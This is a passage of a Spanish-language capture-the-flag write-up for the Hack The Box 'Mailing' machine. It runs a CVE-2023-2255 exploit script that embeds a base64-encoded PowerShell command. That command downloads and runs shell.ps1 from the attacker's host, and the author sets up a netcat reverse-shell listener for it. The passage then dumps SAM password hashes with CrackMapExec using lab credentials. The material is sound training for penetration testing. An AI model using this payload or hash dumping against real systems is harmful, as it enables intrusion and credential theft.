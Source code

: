 Ejecutamos el script del CVE-2023-2255 que hemos descargado

```bash
   ❯ python3 CVE-2023-2255.py --cmd 'cmd /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AQgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAxADgAMwA6ADgAMAAwADAALwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=%' --output 'exploit.odt'
File exploit.odt has been created !

```
Esto crea  un archivo llamado exploit.odt que contiene un payload de PowerShell codificado en base64.
Ahora vamos a iniciar un servidor HTTP por el puerto 8000 para que descarguemos el archivo desde la máquina de Maya. 
Me pongo también en escucha con netcat para conseguir reverse shell pero no recibo nada. 

![](/assets/images/htb-writeup-mailing/8.png)


Asi que sin saber que hacer, pruebo a usar `Podman`, una herramienta de contenedores de código abierto, similar a Docker.

```bash
❯ podman run -it --rm docker.io/heywoodlh/crackmapexec smb mailing.htb -u maya -p "m4y4ngs4ri" --sam

```

### <span style="color:#66CC00"> Opciones de Podman </span>

podman run: Ejecuta un contenedor usando la imagen especificada (en este caso, la imagen de CrackMapExec).
* <span style="color:#7DFFBA">--it</span>: Ejecuta el contenedor en modo interactivo con una pseudo-terminal, lo que permite la interacción en tiempo real.
* <span style="color:#7DFFBA">---rm</span>: Elimina el contenedor automáticamente una vez que finalice su ejecución, limpiando los recursos que utilizó.
* <span style="color:#7DFFBA">docker.io/heywoodlh/crackmapexec</span>: Especifica la imagen del contenedor que se va a ejecutar. En este caso, la imagen de CrackMapExec, una herramienta utilizada para evaluar la seguridad de servicios remotos, en particular para realizar ataques contra servicios SMB, SSH, LDAP, etc.
* <span style="color:#7DFFBA">smb mailing.htb</span>: Le indica a CrackMapExec que se va a interactuar con el servicio SMB del host mailing.htb.
* <span style="color:#7DFFBA">--u maya -p "m4y4ngs4ri"</span>: Proporciona el nombre de usuario (maya) y la contraseña (m4y4ngs4ri) para autenticarte en el servicio SMB de mailing.htb.
* <span style="color:#7DFFBA">---sam</span>: Este parámetro le indica a CrackMapExec que debe volcar los hashes del SAM (Security Account Manager), una base de datos en Windows que almacena las credenciales de las cuentas de usuario.
